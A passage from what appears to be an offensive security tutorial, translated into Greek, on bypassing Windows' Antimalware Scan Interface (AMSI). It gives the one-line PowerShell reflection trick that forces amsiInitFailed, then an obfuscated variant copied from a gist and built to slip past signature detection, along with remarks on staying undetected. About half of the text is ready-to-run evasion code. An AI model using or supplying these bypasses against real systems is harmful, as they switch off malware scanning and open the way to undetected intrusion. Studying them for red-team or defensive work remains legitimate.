 Παρατηρήστε πώς προσθέτει `amsi:` και στη συνέχεια τη διαδρομή προς το εκτελέσιμο από το οποίο εκτελέστηκε το σενάριο, στην προκειμένη περίπτωση, powershell.exe

Δεν ρίξαμε κανένα αρχείο στον δίσκο, αλλά πάλι πιαστήκαμε στη μνήμη λόγω της AMSI.

Υπάρχουν μερικοί τρόποι για να παρακάμψετε την AMSI:

* **Αποκρυπτογράφηση**

Δεδομένου ότι η AMSI λειτουργεί κυρίως με στατικές ανιχνεύσεις, επομένως, η τροποποίηση των σεναρίων που προσπαθείτε να φορτώσετε μπορεί να είναι ένας καλός τρόπος για να αποφύγετε την ανίχνευση.

Ωστόσο, η AMSI έχει τη δυνατότητα να αποκρυπτογραφεί σενάρια ακόμη και αν έχει πολλαπλά επίπεδα, οπότε η αποκρυπτογράφηση μπορεί να είναι κακή επιλογή ανάλογα με το πώς γίνεται. Αυτό το καθιστά όχι και τόσο απλό να αποφευχθεί. Αν και, μερικές φορές, το μόνο που χρειάζεται να κάνετε είναι να αλλάξετε μερικά ονόματα μεταβλητών και θα είστε εντάξει, οπότε εξαρτάται από το πόσο έχει επισημανθεί κάτι.

* **Παράκαμψη AMSI**

Δεδομένου ότι η AMSI υλοποιείται φορτώνοντας μια DLL στη διαδικασία powershell (επίσης cscript.exe, wscript.exe, κ.λπ.), είναι δυνατό να παρέμβετε σε αυτήν εύκολα ακόμη και εκτελώντας ως μη προνομιούχος χρήστης. Λόγω αυτού του σφάλματος στην υλοποίηση της AMSI, οι ερευνητές έχουν βρει πολλούς τρόπους για να παρακάμψουν την ανίχνευση AMSI.

**Εξαναγκασμός Σφάλματος**

Η εξαναγκασμένη αποτυχία της αρχικοποίησης AMSI (amsiInitFailed) θα έχει ως αποτέλεσμα να μην ξεκινήσει καμία σάρωση για τη τρέχουσα διαδικασία. Αρχικά, αυτό αποκαλύφθηκε από τον [Matt Graeber](https://twitter.com/mattifestation) και η Microsoft έχει αναπτύξει μια υπογραφή για να αποτρέψει τη μεγαλύτερη χρήση. 

{% code overflow="wrap" %}
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```
{% endcode %}

Το μόνο που χρειάστηκε ήταν μία γραμμή κώδικα powershell για να καταστήσει το AMSI μη λειτουργικό για τη τρέχουσα διαδικασία powershell. Αυτή η γραμμή έχει φυσικά επισημανθεί από το ίδιο το AMSI, οπότε απαιτείται κάποια τροποποίηση προκειμένου να χρησιμοποιηθεί αυτή η τεχνική.

Εδώ είναι μια τροποποιημένη παράκαμψη AMSI που πήρα από αυτό το [Github Gist](https://gist.github.com/r00t-3xp10it/a0c6a368769eec3d3255d4814802b5db).
```powershell
Try{#Ams1 bypass technic nº 2
$Xdatabase = 'Utils';$Homedrive = 'si'
$ComponentDeviceId = "N`onP" + "ubl`ic" -join ''
$DiskMgr = 'Syst+@.MÂ£nÂ£g' + 'e@+nt.Auto@' + 'Â£tion.A' -join ''
$fdx = '@ms' + 'Â£InÂ£' + 'tF@Â£' + 'l+d' -Join '';Start-Sleep -Milliseconds 300
$CleanUp = $DiskMgr.Replace('@','m').Replace('Â£','a').Replace('+','e')
$Rawdata = $fdx.Replace('@','a').Replace('Â£','i').Replace('+','e')
$SDcleanup = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $CleanUp,$Homedrive,$Xdatabase))
$Spotfix = $SDcleanup.GetField($Rawdata,"$ComponentDeviceId,Static")
$Spotfix.SetValue($null,$true)
}Catch{Throw $_}
```
Keep in mind, that this will probably get flagged once this post comes out, so you should not publish any code if your plan is staying undetected.
